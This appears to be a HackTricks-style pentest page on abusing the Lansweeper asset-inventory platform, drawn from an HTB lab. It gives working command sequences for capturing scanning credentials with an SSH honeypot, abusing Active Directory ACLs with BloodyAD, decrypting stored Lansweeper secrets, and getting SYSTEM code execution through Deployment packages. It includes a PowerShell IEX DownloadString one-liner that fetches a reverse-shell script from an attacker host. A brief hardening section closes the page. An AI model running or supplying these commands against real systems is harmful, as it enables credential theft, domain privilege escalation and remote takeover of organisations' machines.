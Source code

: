 # Lansweeper Abuse: Credential Harvesting, Secrets Decryption, and Deployment RCE

{{#include ../../banners/hacktricks-training.md}}

Lansweeper is an IT asset discovery and inventory platform commonly deployed on Windows and integrated with Active Directory. Credentials configured in Lansweeper are used by its scanning engines to authenticate to assets over protocols like SSH, SMB/WMI and WinRM. Misconfigurations frequently allow:

- Credential interception by redirecting a scanning target to an attacker-controlled host (honeypot)
- Abuse of AD ACLs exposed by Lansweeper-related groups to gain remote access
- On-host decryption of Lansweeper-configured secrets (connection strings and stored scanning credentials)
- Code execution on managed endpoints via the Deployment feature (often running as SYSTEM)

This page summarizes practical attacker workflows and commands to abuse these behaviors during engagements.

## 1) Harvest scanning credentials via honeypot (SSH example)

Idea: create a Scanning Target that points to your host and map existing Scanning Credentials to it. When the scan runs, Lansweeper will attempt to authenticate with those credentials, and your honeypot will capture them.

Steps overview (web UI):
- Scanning → Scanning Targets → Add Scanning Target
  - Type: IP Range (or Single IP) = your VPN IP
  - Configure SSH port to something reachable (e.g., 2022 if 22 is blocked)
  - Disable schedule and plan to trigger manually
- Scanning → Scanning Credentials → ensure Linux/SSH creds exist; map them to the new target (enable all as needed)
- Click “Scan now” on the target
- Run an SSH honeypot and retrieve the attempted username/password

Example with sshesame:

```yaml
# sshesame.conf
server:
  listen_address: 10.10.14.79:2022
```

```bash
# Install and run
sudo apt install -y sshesame
sshesame --config sshesame.conf
# Expect client banner similar to RebexSSH and cleartext creds
# authentication for user "svc_inventory_lnx" with password "<password>" accepted
# connection with client version "SSH-2.0-RebexSSH_5.0.x" established
```

Validate captured creds against DC services:

```bash
# SMB/LDAP/WinRM checks (NetExec)
netexec smb   inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
netexec ldap  inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
netexec winrm inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
```

Notes
- Works similarly for other protocols when you can coerce the scanner to your listener (SMB/WinRM honeypots, etc.). SSH is often the simplest.
- Many scanners identify themselves with distinct client banners (e.g., RebexSSH) and will attempt benign commands (uname, whoami, etc.).

## 2) AD ACL abuse: gain remote access by adding yourself to an app-admin group

Use BloodHound to enumerate effective rights from the compromised account. A common finding is a scanner- or app-specific group (e.g., “Lansweeper Discovery”) holding GenericAll over a privileged group (e.g., “Lansweeper Admins”). If the privileged group is also member of “Remote Management Users”, WinRM becomes available once we add ourselves.

Collection examples:

```bash
# NetExec collection with LDAP
netexec ldap inventory.sweep.vl -u svc_inventory_lnx -p '<password>' --bloodhound -c All --dns-server <DC_IP>

# RustHound-CE collection (zip for BH CE import)
rusthound-ce --domain sweep.vl -u svc_inventory_lnx -p '<password>' -c All --zip
```

Exploit GenericAll on group with BloodyAD (Linux):

```bash
# Add our user into the target group
bloodyAD --host inventory.sweep.vl -d sweep.vl -u svc_inventory_lnx -p '<password>' \
  add groupMember "Lansweeper Admins" svc_inventory_lnx

# Confirm WinRM access if the group grants it
netexec winrm inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
```

Then get an interactive shell:

```bash
evil-winrm -i inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
```

Tip: Kerberos operations are time-sensitive. If you hit KRB_AP_ERR_SKEW, sync to the DC first:

```bash
sudo ntpdate <dc-fqdn-or-ip>   # or rdate -n <dc-ip>
```

## 3) Decrypt Lansweeper-configured secrets on the host

On the Lansweeper server, the ASP.NET site typically stores an encrypted connection string and a symmetric key used by the application. With appropriate local access, you can decrypt the DB connection string and then extract stored scanning credentials.

Typical locations:
- Web config: `C:\Program Files (x86)\Lansweeper\Website\web.config`
  - `<connectionStrings configProtectionProvider="DataProtectionConfigurationProvider">` … `<EncryptedData>…`
- Application key: `C:\Program Files (x86)\Lansweeper\Key\Encryption.txt`

Use SharpLansweeperDecrypt to automate decryption and dumping of stored creds:

```powershell
# From a WinRM session or interactive shell on the Lansweeper host
# PowerShell variant
Upload-File .\LansweeperDecrypt.ps1 C:\ProgramData\LansweeperDecrypt.ps1   # depending on your shell
powershell -ExecutionPolicy Bypass -File C:\ProgramData\LansweeperDecrypt.ps1
# Tool will:
#  - Decrypt connectionStrings from web.config
#  - Connect to Lansweeper DB
#  - Decrypt stored scanning credentials and print them in cleartext
```

Expected output includes DB connection details and plaintext scanning credentials such as Windows and Linux accounts used across the estate. These often have elevated local rights on domain hosts:

```text
Inventory Windows  SWEEP\svc_inventory_win  <StrongPassword!>
Inventory Linux    svc_inventory_lnx        <StrongPassword!>
```

Use recovered Windows scanning creds for privileged access:

```bash
netexec winrm inventory.sweep.vl -u svc_inventory_win -p '<StrongPassword!>'
# Typically local admin on the Lansweeper-managed host; often Administrators on DCs/servers
```

## 4) Lansweeper Deployment → SYSTEM RCE

As a member of “Lansweeper Admins”, the web UI exposes Deployment and Configuration. Under Deployment → Deployment packages, you can create packages that run arbitrary commands on targeted assets. Execution is performed by the Lansweeper service with high privilege, yielding code execution as NT AUTHORITY\SYSTEM on the selected host.

High-level steps:
- Create a new Deployment package that runs a PowerShell or cmd one-liner (reverse shell, add-user, etc.).
- Target the desired asset (e.g., the DC/host where Lansweeper runs) and click Deploy/Run now.
- Catch your shell as SYSTEM.

Example payloads (PowerShell):

```powershell
# Simple test
powershell -nop -w hidden -c "whoami > C:\Windows\Temp\ls_whoami.txt"

# Reverse shell example (adapt to your listener)
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://<attacker>/rs.ps1')"
```

OPSEC
- Deployment actions are noisy and leave logs in Lansweeper and Windows event logs. Use judiciously.

## Detection and hardening

- Restrict or remove anonymous SMB enumerations. Monitor for RID cycling and anomalous access to Lansweeper shares.
- Egress controls: block or tightly restrict outbound SSH/SMB/WinRM from scanner hosts. Alert on non-standard ports (e.g., 2022) and unusual client banners like Rebex.
- Protect `Website\\web.config` and `Key\\Encryption.txt`. Externalize secrets into a vault and rotate on exposure. Consider service accounts with minimal privileges and gMSA where viable.
- AD monitoring: alert on changes to Lansweeper-related groups (e.g., “Lansweeper Admins”, “Remote Management Users”) and on ACL changes granting GenericAll/Write membership on privileged groups.
- Audit Deployment package creations/changes/executions; alert on packages spawning cmd.exe/powershell.exe or unexpected outbound connections.

## Related topics
- SMB/LSA/SAMR enumeration and RID cycling
- Kerberos password spraying and clock skew considerations
- BloodHound path analysis of application-admin groups
- WinRM usage and lateral movement

## References
- [HTB: Sweep — Abusing Lansweeper Scanning, AD ACLs, and Secrets to Own a DC (0xdf)](https://0xdf.gitlab.io/2025/08/14/htb-sweep.html)
- [sshesame (SSH honeypot)](https://github.com/jaksi/sshesame)
- [SharpLansweeperDecrypt](https://github.com/Yeeb1/SharpLansweeperDecrypt)
- [BloodyAD](https://github.com/CravateRouge/bloodyAD)
- [BloodHound CE](https://github.com/SpecterOps/BloodHound)

{{#include ../../banners/hacktricks-training.md}}